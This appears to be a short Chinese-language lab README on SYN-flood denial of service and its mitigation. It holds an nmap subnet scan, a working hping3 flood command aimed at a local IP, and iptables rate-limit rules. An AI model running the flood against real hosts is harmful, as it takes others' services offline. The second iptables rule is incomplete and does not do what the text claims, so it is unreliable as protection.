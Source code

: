 # DoS攻擊與防護
## 攻擊端
攻擊端先利用nmap掃描啟動中的ip和正在啟用的端口 
```
nmap -O -p 80 192.168.0.* 
```
> 掃描192.168.0.0到192.168.0.255之間port為80的主機

例如找到192.168.0.121有開放80端口後開始使用hping3攻擊開始攻擊 
```
hping3 --flood -S -p 80 -d 120 -v 192.168.0.121 
```
> 利用泛洪方式攻擊192.168.0.121的80端口發送120BYTES大小的syn封包
  
## 防護端
### Linux的iptables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 10 -j REJECT  
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --second 6
```
上述兩個指令表達是在6秒內相同IP請求連線次數超過10個即拒絕回應

## 影片說明
本次有實際防範影片，駭客用上述hping3的攻擊指令導致Http Server無法服務，但伺服器有在防火牆上做上述過濾規則，導致只有駭客IP被回絕的成效。   
成果影片：[DoS防護](https://www.youtube.com/watch?v=qEC8grbp2ao&t=3s)
